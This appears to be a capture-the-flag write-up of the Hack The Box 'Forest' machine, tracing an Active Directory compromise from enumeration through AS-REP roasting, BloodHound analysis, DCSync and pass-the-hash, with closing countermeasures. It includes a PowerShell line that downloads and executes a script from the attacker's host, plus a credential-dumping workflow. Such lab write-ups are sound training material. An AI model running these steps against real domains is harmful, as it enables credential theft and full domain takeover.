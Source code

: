 # HTB: Forest Writeup w/o Metasploit
![forest](https://user-images.githubusercontent.com/48168337/166676766-68748299-2055-46cc-bb97-6a481b49eaa1.png)

## Introduction
Forest is definitely one of my favorite boxes because it allows us to play with another real world service, Active Directory. I love working with these, because a lot if not most organizations have some type of Directory Service. This is a great box to get your hands-on a real-world scenario. Alright, let's get right into it.


## Recon
The first thing I did here was kick off some nmap scans per usual.

![nmap](https://user-images.githubusercontent.com/48168337/166676854-6aac1c61-c438-4b86-b734-6d39084b9f45.JPG)

(*nmap -n -Pn -p- - open -oN full-scan-10.10.10.161 10.10.10.161*)


There are a bunch of ports open on this box. You can see we have DNS, Kerberos, LDAP, WinRM, and other services available. I talk more about these services during the video walkthrough. I will share at the end of the writeup. Based on the services available, we can assume this is probably some kind of Active Directory Service or Domain Controller. Lets gather more information using enum4linux.

![users](https://user-images.githubusercontent.com/48168337/166677091-23a84306-ff82-4c7f-b960-9a0f67e506c8.JPG)

## Enumeration 
Enum4linux returned a lot of information. What stood out to me the most were the user accounts; it even looks like we found a service account (svc-alfresco). We'll actually being using this later.

We don't have any passwords for these user accounts, so we can't log in with them just yet. But we can try to brute force them with an AS-REP Roasting attack. Why this attack? Because this box has Kerberos running on it. If pre-authentication isn't enabled, Kerberos can be vulnerable to an AS-REP Roasting attack. AS-REP Roasting targets Kerberos and tries to request a TGT ticket (hash) which we "try" to crack. To do the AS-REP Roasting we'll use Impacket. This, I believe, comes preinstalled on Kali Linux under /usr/share/doc/python3-impacket/examples/. The Impacket script we'll use is GetNPUsers.py.

![pre-auth](https://user-images.githubusercontent.com/48168337/166677134-5c313cb3-a54c-44b1-98e1-5cf94441d7d6.JPG)

(*python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -usersfile ldap_users.txt -dc-ip 10.10.10.161*)

## Initial Exploitation
Cool. The attack works and gives us svc-alfresco's TGT (hash). Let's throw it into John and try to crack the password. FYI: I put the hash inside of a file before using it with John. And since I've already cracked the hash, I had to run the "--show" option to show the cleartext password.

![1](https://user-images.githubusercontent.com/48168337/166677905-057f3d2c-500b-47af-96ba-ddcd849bb799.JPG)


Sweet. Now we have svc-alfresco's password. Now what? Well, when looking for next steps, I tend to look back at the services and loot we have available. There was a WinRM service running on this box, and we have credentials to use. Let's try it against the WinRM service. If you're not familiar with it, WinRM is a Windows Remote Service we can use for remote logins (kind of like ssh). We'll use the evil winrm tool to login as svc-alfresco.

![2](https://user-images.githubusercontent.com/48168337/166678044-bd59ef6f-34c6-4f36-be12-1193268da556.JPG)


## Privilege Escalation
Alright, we finally have access to the box. Let's cut right to it and escalate our privileges. We know this is some sort of Directory server since it has LDAP services enabled, and the name of the box is Forest (Active Directory) lol. Because of that, let's use Sharphound and Bloodhound to extract AD objects. If you've never used them before, don't worry, they are pretty easy to use. I'll break them down further during our walkthrough video. For now, Sharphound collects the AD objects and Bloodhound analyzes it. There are other ways to collect the objects but we're going to use [Sharphound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors).


First, we'll need to download sharphound to our local machine and then transfer it to the target box (forest). Use the github repo above to download sharphound. Then start up a webserver on your local machine so you can retrieve the file over http from the target box.
![3](https://user-images.githubusercontent.com/48168337/166678040-35f6e886-1c46-4760-807d-509d828243ed.JPG)



Afterwards start sharphound with ./sharphound.exe -c all. This will try to collect everything it can regarding AD objects. It will save all of this in a zip file. We'll need to transfer that zip file back to our local box and upload it into Bloodhound. To do this, I'm going to start a smbserver on my local machine and send the zip file to my smbserver; I'm going to rename the zip file first to something a bit easier to type out.

![4](https://user-images.githubusercontent.com/48168337/166678041-7f07d11e-c479-4687-b737-61ed8fb6ee4d.JPG)



Now we have the file on our local kali box. We just need to start up neo4j (Bloodhound's database server), then start up Bloodhound, and then upload the zip file into Bloodhound. FYI: You may have to setup neo4j. It isn't too much work; I think you just need to change the default password after starting the service.


To start neo4j, enter "neo4j console" into the terminal. To start Bloodhound, we just need to type and enter "bloodhound."
![5](https://user-images.githubusercontent.com/48168337/166678042-1412161a-18d9-4a7a-91b0-65890ed27b4e.JPG)


Once Bloodhound is started up, select the "upload data" button towards the right and upload your zip file.

![image](https://user-images.githubusercontent.com/48168337/166678538-4d000810-1205-461a-828d-32779fcfe27f.png)


In this writeup, I won't do too much explaining of Bloodhound, we'll save that for the video walkthrough. Let's use the search bar to look for the svc-alfresco.

![image](https://user-images.githubusercontent.com/48168337/166678586-66f028ff-4efe-4e4d-acb9-2dad3d2e4a9f.png)

Since we cracked the password. Right click on the user icon and select "mark user as owned."

![image](https://user-images.githubusercontent.com/48168337/166678651-2607694d-640d-46ba-a458-2f73d238916c.png)


Next let's use the Analysis tab to find the "Shortest Path to High Value Targets."

![image](https://user-images.githubusercontent.com/48168337/166678706-983d8df4-8a3f-4325-8df8-d27ba0381897.png)


This will look like a soup sandwich, so I'm only going to show what we're interested with. The "Exchange Windows Permissions" Group has WriteDacl permissions to HTB.local.

![image](https://user-images.githubusercontent.com/48168337/166678739-43e34fc9-0775-4157-b4aa-fbb34103239d.png)


This means that group can modify permissions on HTB.local. In other words, they can grant themself any privileges they want on HTB.local. But we'll need access to a user account in that group. Right click "Exchange Windows Permission" group and select "shortest path to here from owned." This will show us our (svc-alfresco's) permissions regarding that group.
![image](https://user-images.githubusercontent.com/48168337/166678792-7f8d20ad-f3d0-462a-986b-d5475fbb5112.png)


As you can see, we are members of the Account Operators group, which has GenericAll access to the "Exchange Windows Permissions" group. This means we have full control of "Exchange Windows Permissions" group, so we should be able to add a user to that group. Once our new user is in that group, we will abuse the Write Dacl to perform a Dsync attack against htb.local.

Dsync attacks remind me of DNS zone transfers where you're replicating all the DNS entries from one DNS server to another. Dsync replicates Domain Controller information to another (our box). This includes the password hashes for other accounts. Fortunately, Bloodhound shows us the steps we need to do the Dsync attack. You just have to right click "write dacl" and select the "abuse info" tab.

![image](https://user-images.githubusercontent.com/48168337/166678866-116caecc-9ae1-4f35-880e-5668f2058083.png)

Ok, let's go ahead and create the new account first.

![image](https://user-images.githubusercontent.com/48168337/166678906-d617673d-31da-4178-b2f7-14b409e5a475.png)


Then we'll add it to the right group.

![image](https://user-images.githubusercontent.com/48168337/166678947-15b1789b-8a27-4ddc-85fc-563b6c804881.png)

Now we run the Dsync attack steps from Bloodhound. The only thing we'll need for this to work is the PowerView.ps1 [script](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1). This script is the first thing that gets executed. Make sure you're hosting the script via http (python webserver) so we can execute it. Once you're http service is running use the lines below, one a time, to setup the dsync attack.

1. IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PowerView.ps1')
2. $SecPassword = ConvertTo-SecureString 'olinesecurity' -AsPlainText -Force
3. $Cred = New-Object System.Management.Automation.PSCredential('HTB\kage', $SecPassword)
4. Add-ObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity kage -Rights DCSync

![image](https://user-images.githubusercontent.com/48168337/166679026-77f2b38a-e51f-4930-8c5a-4803cd6bd186.png)

Cool. Everything is now setup for us to do the dsync attack. There are several ways to perform this. The Bloodhound instructions uses mimikatz. I'm going to use another Impacket script (secretsdump.py). This will be done locally from my kali box.

![image](https://user-images.githubusercontent.com/48168337/166679059-77637135-3178-446e-a4f7-d954c9f1073d.png)

As a result, we get a bunch of hashes for various user accounts. From here we can simply do a pass the hash attack with a tool of your choice; I used psexec.

![image](https://user-images.githubusercontent.com/48168337/166679069-750c7c1f-1bd8-4bb2-874d-df3814f1859d.png)


## Conclusion
And that's its folks. Forest could have been extremely difficult if you have 0 experience with Directory Services and Kerberos. Nonetheless, it was a great challenge and learning experience.

## AAR
A few countermeasures before we go.
(1) Anonymous users shouldn't be able to remotely list account names and resources. We did this with enum4linux. This is how we found the service account (svc_alfresco). 
(2) Pre-authentication should be enabled to prevent the AS-REP roasting attack. With this enabled we wouldn't be able to get svc_alfresco's TGT hash. 
(3) Better group access controls may have prevented us from creating our own access controls to perform the Dsync attack. 
(4) Furthermore, we want to try and prevent the Dsync attack. This can be difficult to do since its abusing normal Active Directory functionality. However, we can prevent the attack by limiting the users and groups that can replicate directory changes. All in all, what made this box exciting was it being a use-case scenario. Hopefully, you enjoyed this writeup, [here](https://youtu.be/DLPgQ9ooxCQ) is the video walkthrough.